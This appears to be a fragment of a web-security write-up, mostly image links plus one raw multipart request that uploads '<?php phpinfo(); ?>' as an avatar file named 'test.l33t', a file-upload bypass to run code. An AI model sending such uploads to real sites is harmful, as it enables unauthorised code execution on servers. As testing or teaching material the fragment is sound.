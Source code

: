 ![img](media/b8b84db19531e4350d7e71864cbb39ec.png)

Upload Phpinfo file:

~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
-----------------------------230880832739977645353483474501
Content-Disposition: form-data; name="avatar"; filename="test.l33t"
Content-Type: application/octet-stream

<?php phpinfo(); ?>
~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

![img](media/56288a30fa58734aa0a684ab71c0c5c8.png)
